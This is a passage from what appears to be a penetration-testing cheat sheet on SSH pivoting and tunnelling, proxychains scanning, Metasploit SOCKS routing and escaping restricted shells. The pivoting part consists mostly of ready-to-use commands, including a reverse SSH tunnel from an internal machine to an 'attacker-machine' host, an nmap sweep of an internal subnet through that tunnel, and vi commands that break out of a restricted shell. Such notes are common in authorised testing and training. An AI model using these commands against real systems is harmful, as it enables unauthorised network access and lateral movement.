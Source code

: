             now we connect (from remote, public network) to <gateway>:<remote port to bind> -> ssh via <gateway> -> <local host>:<local port>
            ```

        * dynamic
            ```
            # create local socks4 proxy
            ssh -D <local proxy port> -p <remote port> <target>
            # <target> must allow traffic on <remote port>
            now we can setup proxy in our tools
            ```

        * proxychains
            ```
            ssh -f -N -R 2222:127.0.0.1:22 root@attacker-machine  # on internal machine. Now attacker machine listen on 2222 and tunnel traffic to internal machine

            ssh -f -N -D 127.0.0.1:8080 -p 2222 some-user@127.0.0.1  # on attacker machine. Now we have proxy on 8080 that tunnel via ssh into internal machine (with user some-user)

            proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24  # proxychains uses 8080 to tunnel trafic
            ```

        * metasploit dynamic proxy
            ```
            > route add 10.1.1.0 255.255.255.0 3
            > use auxiliary/server/socks4a
            > set SRVPORT
            > run

            > msfmap ?
            > portfwd
            ```

    * HTTP Tunneling
    * Deep inpsection
        * stunnel
        * HTTPTunnel

#### #restricted shell escape
    * start with env and PATH
    * ls replacements
        ```
        echo path/to/dir/*
        ```
    * export -p
        * check if any variable is writeable
    * copy files to PATH
    * copy to home dir and something with ~
    * chroot
        * https://filippo.io/escaping-a-chroot-jail-slash-1/
        * https://github.com/earthquake/chw00t
    * mounting filesystem
    * editors (vi, vim)
        ```
        :set shell=/bin/bash
        :shell
